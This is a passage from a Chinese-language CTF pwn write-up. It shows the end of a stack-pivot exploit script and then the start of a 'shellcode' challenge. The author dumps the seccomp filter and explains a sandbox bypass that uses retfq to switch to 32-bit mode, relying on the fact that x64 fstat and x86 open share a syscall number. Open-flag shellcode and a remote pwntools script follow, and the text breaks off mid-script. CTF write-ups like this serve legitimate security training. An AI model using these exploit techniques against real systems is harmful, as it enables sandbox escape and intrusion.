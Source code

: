 ```python
p.send((0x20 - 8) * b"a" + 7 * b"a" + b"\x00")
p.send(p64(0x404060) + p64(leave_ret))
p.send("\n")

p.interactive()
```

本人属于是把题目两个坑都给踩了

怎么会有人在`scanf`后面接上`gets`啊（

线程里不能直接调用`system`函数，坑了我一下午和一晚上

### shellcode | Humoooor

`shellcode` + 沙箱

```bash
➜  shellcode seccomp-tools dump ./shellcode
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x25 0x05 0x00 0x40000000  if (A > 0x40000000) goto 0007
 0002: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0007
 0003: 0x15 0x03 0x00 0x00000005  if (A == fstat) goto 0007
 0004: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0007
 0005: 0x15 0x01 0x00 0x00000009  if (A == mmap) goto 0007
 0006: 0x06 0x00 0x00 0x00000000  return KILL
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

没有检查架构，因此可以先使用`retfq`改成`32`位运行模式，利用`fstat`的`x64`系统调用号与`open`的`x86`系统调用号相同，打开`flag`，再回到`64`位运行模式，进行读写

```python
from pwn import *
p = remote('pwn.archive.xdsec.chall.frankli.site', 10049)
#p = process('./' + __file__[0:-3])
context(arch='amd64', os='linux', log_level='debug')
elf = ELF(__file__[0:-3])

open_x86 = '''
    /* open(file='./flag', oflag=0, mode=0) */
    /* push b'./flag\x00' */
    mov esp, 0x40404140
    push 0x1010101
    xor dword ptr [esp], 0x1016660
    push 0x6c662f2e
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    /* call open() */
    push SYS_open /* 5 */
    pop eax
    int 0x80
    mov ecx, eax
    push 0x33
    push 0x40404080
'''

retfq = 'retfq;'

open_x86 = b'\xbc@A@@h\x01\x01\x01\x01\x814$`f\x01\x01h./fl\x89\xe31\xc91\xd2j\x05X\xcd\x80\x89\xc1j3h\x80@@@'

mmap_buf = '''
```